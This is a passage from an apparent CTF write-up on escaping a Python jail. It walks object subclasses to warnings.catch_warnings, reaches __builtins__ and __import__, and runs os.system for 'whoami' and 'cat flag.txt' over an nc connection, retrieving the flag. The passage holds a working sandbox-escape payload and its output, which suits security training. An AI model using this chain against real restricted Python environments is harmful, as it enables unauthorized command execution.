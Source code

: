 we got an error, after looking around there class called, `warnings.catch_warnings'` which is located in index 59

applying `_module` attribute 

```
>>> print(dir(().__class__.__base__.__subclasses__()[59]()._module))
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
>>>
```

A very interesting attribute appears, it is “__builtins__”.

> **_NOTE:_**  
The content of __ builtins __ is a dictionary of Python “builtins” functions containing, among other things, the __import__ function.

Once this function is located, all that remains is to import the `os` module which execute system commands using the `system` function of this module to obtain the flag.

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('whoami'))
nobody
0
>>>
```

we got it, now read the flag

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt'))
acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}
0
>>>
```
